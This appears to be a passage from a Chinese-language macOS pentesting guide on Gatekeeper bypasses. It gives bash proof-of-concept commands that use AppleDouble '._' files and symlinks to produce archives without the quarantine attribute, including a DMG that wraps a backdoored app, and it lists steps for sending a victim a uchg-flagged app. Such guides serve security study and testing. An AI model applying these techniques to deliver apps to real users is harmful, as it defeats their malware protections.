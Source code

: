 AppleDouble文件格式将文件的属性存储在一个以`._`开头的单独文件中，这有助于在**macOS机器之间**复制文件属性。然而，注意到在解压AppleDouble文件后，以`._`开头的文件**没有被赋予隔离属性**。

{% code overflow="wrap" %}
```bash
mkdir test
echo a > test/a
echo b > test/b
echo ._a > test/._a
aa archive -d test/ -o test.aar

# If you downloaded the resulting test.aar and decompress it, the file test/._a won't have a quarantitne attribute
```
{% endcode %}

能够创建一个不会设置隔离属性的文件，**可以绕过 Gatekeeper。** 这个技巧是**使用 AppleDouble 命名约定创建一个 DMG 文件应用程序**（以 `._` 开头），并创建一个**作为此隐藏文件的符号链接的可见文件**，而没有隔离属性。\
当**dmg 文件被执行**时，由于它没有隔离属性，它将**绕过 Gatekeeper**。
```bash
# Create an app bundle with the backdoor an call it app.app

echo "[+] creating disk image with app"
hdiutil create -srcfolder app.app app.dmg

echo "[+] creating directory and files"
mkdir
mkdir -p s/app
cp app.dmg s/app/._app.dmg
ln -s ._app.dmg s/app/app.dmg

echo "[+] compressing files"
aa archive -d s/ -o app.aar
```
### uchg (来自这个 [演讲](https://codeblue.jp/2023/result/pdf/cb23-bypassing-macos-security-and-privacy-mechanisms-from-gatekeeper-to-system-integrity-protection-by-koh-nakagawa.pdf))

* 创建一个包含应用程序的目录。
* 将 uchg 添加到应用程序中。
* 将应用程序压缩为 tar.gz 文件。
* 将 tar.gz 文件发送给受害者。
* 受害者打开 tar.gz 文件并运行应用程序。
* Gatekeeper 不会检查该应用程序。

### 防止 Quarantine xattr

在一个 ".app" 包中，如果没有添加 quarantine xattr，当执行它时 **Gatekeeper 不会被触发**。

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}
